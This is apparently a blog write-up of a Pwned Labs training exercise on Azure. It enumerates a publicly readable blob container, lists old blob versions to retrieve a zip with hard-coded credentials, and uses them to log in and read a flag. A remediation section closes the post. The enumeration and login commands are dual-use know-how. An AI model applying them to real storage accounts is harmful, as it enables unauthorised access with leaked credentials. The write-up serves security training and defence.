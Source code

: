```yaml
---
title: Azure Blob Container to Initial Access
description: Azure Blob Container to Initial Access
image:
  path: azure.webp
categories:
- Pwned Labs
- Azure
layout: post
media_subpath: /assets/posts/labs/pwnedlabs/azure/
tags:
- pwnedlabs
- azure
- cloud
---
```

# Scenario

Mega Big Tech have adopted a hybrid cloud architecture and continues to use a local on-premise Active Directory domain, as well as the Azure cloud. They are wary of being targeted due to their importance in the tech world, and have asked your team to assess the security of their infrastructure, including cloud services. An interesting URL has been found in some public documentation, and you are tasked with assessing it.

## Walkthrough
We are given URL: `http://dev.megabigtech.com/$web/index.html`. Let's check the content. It seems like it's a static page.

![](azure-blob-container-to-initial-access-1.png)

The page includes static files from [Azure Blob Storage](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction), which is Microsoft's object storage solution for the cloud. This can be confirmed by [endpoint format](https://cloud.hacktricks.wiki/en/pentesting-cloud/azure-security/az-services/az-storage.html#storage-endpoints)

![](azure-blob-container-to-initial-access-2.png)

We can also try accessing `https://mbtwebsite.blob.core.windows.net/$web/index.html` to confirm that site is hosted on Azure Blob Storage. This can also be confirmed via `curl` (`Server: Blob Service Version 1.0 Microsoft-HTTPAPI/2.0` header) or `Invoke-WebRequest` (`x-ms-blob-type: BlockBlob` header)
```
└─$ curl -I https://mbtwebsite.blob.core.windows.net/$web/index.html                                                       
HTTP/1.1 400 One of the request inputs is out of range.
Transfer-Encoding: chunked
Server: Blob Service Version 1.0 Microsoft-HTTPAPI/2.0
x-ms-request-id: 2132b9e2-801e-0010-2870-058957000000
Date: Mon, 04 Aug 2025 18:49:27 GMT
```
```
└─PS> Invoke-WebRequest -Uri 'https://mbtwebsite.blob.core.windows.net/$web/index.html' -Method Head | Select-Object -ExpandProperty Headers
                                                                                                                        
Key               Value
---               -----
ETag              {0x8DBD1A84E6455C0}
Server            {Windows-Azure-Blob/1.0, Microsoft-HTTPAPI/2.0}
x-ms-request-id   {01973c31-b01e-0024-2470-05ba9f000000}
x-ms-version      {2009-09-19}
x-ms-lease-status {unlocked}
x-ms-blob-type    {BlockBlob}
Date              {Mon, 04 Aug 2025 18:50:06 GMT}
Content-Length    {782359}
Content-Type      {text/html}
Content-MD5       {JSe+sM+pXGAEFInxDgv4CA==}
Last-Modified     {Fri, 20 Oct 2023 20:08:20 GMT}
```

We can continue examining Azure Blob Storage. It [consists of several parts](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#blob-storage-resources)

![](azure-blob-container-to-initial-access-3.png)

Based on [Microsoft documentation](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#blob-storage-resources), we can digest `https://mbtwebsite.blob.core.windows.net/$web/index.html`

- `https`: Protocol
- `mbtwebsite`: [Storage account name](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#storage-accounts)
- `blob.core.windows.net`: [Azure Storage service endpoint](https://learn.microsoft.com/en-us/azure/storage/common/storage-account-overview?toc=%2Fazure%2Fstorage%2Fblobs%2Ftoc.json&bc=%2Fazure%2Fstorage%2Fblobs%2Fbreadcrumb%2Ftoc.json#standard-endpoints)
- `$web`: [Container name](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction#containers)
- `index.html`: file requested

We can use the following [documentation](https://learn.microsoft.com/en-us/rest/api/storageservices/list-blobs?tabs=microsoft-entra-id) to enumerate Azure Blob Storage. 

Let's list the blobs and directories
```
https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list
```
```
https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&delimiter=%2F
```

![](azure-blob-container-to-initial-access-4.png)

Nothing interesting, but we can try checking for [blob versioning](https://learn.microsoft.com/en-us/azure/storage/blobs/versioning-overview), which is maintains previous versions of a blob.
```
https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&include=versions
```
If we try checking for versions, we get an error. It seems like based on [documentation](https://learn.microsoft.com/en-us/rest/api/storageservices/list-blobs?tabs=microsoft-entra-id#uri-parameters) `include=versions` parameter is supported by version `2019-12-12` 

![](azure-blob-container-to-initial-access-5.png)

We can specify it by setting the `x-ms-version` header
```
curl -H "x-ms-version: 2019-12-12" 'https://mbtwebsite.blob.core.windows.net/$web?restype=container&comp=list&include=versions' | xmllint --format - | less
```

We find blob `scripts-transfer.zip` and the version ID that we can use to download

![](azure-blob-container-to-initial-access-6.png)

```
└─$ curl -H "x-ms-version: 2019-12-12" 'https://mbtwebsite.blob.core.windows.net/$web/scripts-transfer.zip?versionId=2025-02-18T00:29:19.3854225Z' --output scripts-transfer.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1606  100  1606    0     0   1945      0 --:--:-- --:--:-- --:--:--  1944
```

Content of the zip archive
```
└─$ unzip scripts-transfer.zip             
Archive:  scripts-transfer.zip
  inflating: entra_users.ps1         
  inflating: stale_computer_accounts.ps1
```

Inside we find credentials

![](azure-blob-container-to-initial-access-7.png)

We can try both credentials, but only `marcus@megabigtech.com` works
```
└─$ az login -u marcus@megabigtech.com -p '<REDACTED>'   
Starting September 1, 2025, MFA will be gradually enforced for Azure public cloud. The authentication with username and password in the command line is not supported with MFA. Consider using one of the compatible authentication methods. For more details, see https://go.microsoft.com/fwlink/?linkid=2276314                                                                                                                                                                      
[
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "id": "ceff06cb-e29d-4486-a3ae-eaaec5689f94",
    "isDefault": true,
    "managedByTenants": [],
    "name": "Microsoft Azure Sponsorship",
    "state": "Enabled",
    "tenantDefaultDomain": "megabigtech.com",
    "tenantDisplayName": "Default Directory",
    "tenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "user": {
      "name": "marcus@megabigtech.com",
      "type": "user"
    }
  }
]
```
```
$Username = "marcus@megabigtech.com"
$Password = "<REDACTED>" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($Username, $Password)
Connect-AzAccount -Credential $Credential
```

To get the flag
```
└─$ az ad signed-in-user show
{
  "@odata.context": "https://graph.microsoft.com/v1.0/$metadata#users/$entity",
  "businessPhones": [],
  "displayName": "Marcus Hutch",
  "givenName": "Marcus",
  "id": "41c178d3-c246-4c00-98f0-8113bd631676",
  "jobTitle": "Flag: <REDACTED>",
  "mail": null,
  "mobilePhone": null,
  "officeLocation": null,
  "preferredLanguage": null,
  "surname": "Hutch",
  "userPrincipalName": "marcus@megabigtech.com"
}
```
```
Get-AzADUser -SignedIn | fl
```

## Remediation
This section is from [Walkthrough section](https://pwnedlabs.io/labs/azure-blob-container-to-initial-access) of the lab.

The entire blob container is accessible by anonymous users and world-readable, when just the website files should have been configured to be publicly accessible.

![](azure-blob-container-to-initial-access-8.png)

This means that a previous version of a sensitive file was also publicly discoverable and readable. To mitigate this issue, the previous version should be deleted.

![](azure-blob-container-to-initial-access-9.png)

To do it via Azure CLI, the following command could be used after setting the storage account context with `Set-AzCurrentStorageAccount`
```
Remove-AzStorageBlob -Container '$web' -Blob scripts-transfer.zip -VersionId "2024-03-29T20:55:40.8265593Z"
```

Moreover, it's not recommended to hard-code credentials in scripts. Credentials should be stored in a PAM (Privileged Access Management) system, password manager or using a service such as Azure Key Vault. Key Vault allows you to securely store and access keys, passwords, certificates, and other secrets. 

Check other [community walkthroughs](https://youtu.be/L0eM8RCqJV0)